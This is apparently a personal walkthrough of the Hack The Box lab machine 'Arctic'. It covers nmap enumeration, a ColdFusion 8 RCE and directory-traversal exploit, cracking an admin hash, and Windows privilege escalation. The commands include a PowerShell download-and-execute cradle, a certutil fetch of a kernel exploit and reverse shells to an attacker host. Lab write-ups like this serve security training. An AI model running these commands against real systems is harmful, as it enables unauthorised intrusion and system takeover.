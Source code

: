 # Summary



## about target

tip:  10.129.119.4

hostname: Arctic

Difficulty: Easy



## about attack

+ http exploit easy, two path to rce.
+ privesc, winpeas not work, powerup not to well, use suggester or sherlock.
+ kernel exploit, try more. Failed, try change payload to 64/86, revert target and try other exploit exe.



**attack note**

```bash
Arctic / 10.129.119.1

ORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
|_http-title: Index of /
49154/tcp open  msrpc   Microsoft Windows RPC


## http 8500 

adobe coldfusion 8 
exploit:
RCE  https://www.exploit-db.com/exploits/50057
https://paper.bobylive.com/Security/LARES-ColdFusion.pdf
https://pentest.tonyng.net/attacking-adobe-coldfusion/

Directory Traversal  https://www.exploit-db.com/exploits/14641
got hash

hash crack, password: happyday

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin.hash

pythoon 50075.py

powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.33/PowerUp.ps1'); Invoke-AllChecks"


move C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe CF8DotNetsvc.exe.bak
copy 1337.exe C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe


kernel enum
python windows-exploit-suggester.py --systeminfo ~/lab/htb/arctic/sysinfo.txt --databases 2022-09-29-mssb.xls


https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
certutil -urlcache -split -f http://10.10.14.33/MS10-059.exe

.\ms10-059.exe 10.10.14.33 4444

```



# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
|_http-title: Index of /
49154/tcp open  msrpc   Microsoft Windows RPC


```



## Http enum

access via browser, got /cfide

got version, adobe coldfusion 8

![image-20220930012103214](./images/image-20220930012103214.png)



search exploit

RCE  https://www.exploit-db.com/exploits/50057
https://paper.bobylive.com/Security/LARES-ColdFusion.pdf
https://pentest.tonyng.net/attacking-adobe-coldfusion/

Directory Traversal  https://www.exploit-db.com/exploits/14641





# Exploitation

## Rce 50057

modify the exploit

```bash
    lhost = '10.10.14.33'
    lport = 4444
    rhost = "10.129.126.53"
    rport = 8500

```

run and listen, got shell.

```bash
python 50057.py
```

![image-20220930012523794](./images/image-20220930012523794.png)



## Directory Traversal - RCE

Directory Traversal  https://www.exploit-db.com/exploits/14641

reference, https://pentest.tonyng.net/attacking-adobe-coldfusion/

access the url, got the hash.

```py
http://10.129.126.53:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

![image-20220930012741671](./images/image-20220930012741671.png)

Crack hash. Password: happyday

```bash
echo '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03' > admin.hash

hash-identifier 
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin.hash
```

![image-20220930013024861](./images/image-20220930013024861.png)



login via admin

according to https://paper.bobylive.com/Security/LARES-ColdFusion.pdf

got shell.



# Privesc



## local Enum

Powerup enum, have write permission to serveral service, not able to restart/shutdown.

```bash
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.33/PowerUp.ps1'); Invoke-AllChecks"
```



![image-20220930013232266](./images/image-20220930013232266.png)



![image-20220930013325454](./images/image-20220930013325454.png)



kernel enum. Win 2008 x64

```bash
systeminfo > sysinfo.txt

python windows-exploit-suggester.py --systeminfo ~/lab/htb/arctic/sysinfo.txt --databases 2022-09-29-mssb.xls
```

![image-20220930013429452](./images/image-20220930013429452.png)



## System

ignore the exploit of Internet explorer

try:  MS13-005, MS11-011, MS10-059

MS10-059 work, exploit, https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

```bash
certutil -urlcache -split -f http://10.10.14.33/MS10-059.exe

.\ms10-059.exe 10.10.14.33 4444
```

![image-20220930013715278](./images/image-20220930013715278.png)



## proof

```bash


```



![image-20220930004615767](./images/image-20220930004615767.png)
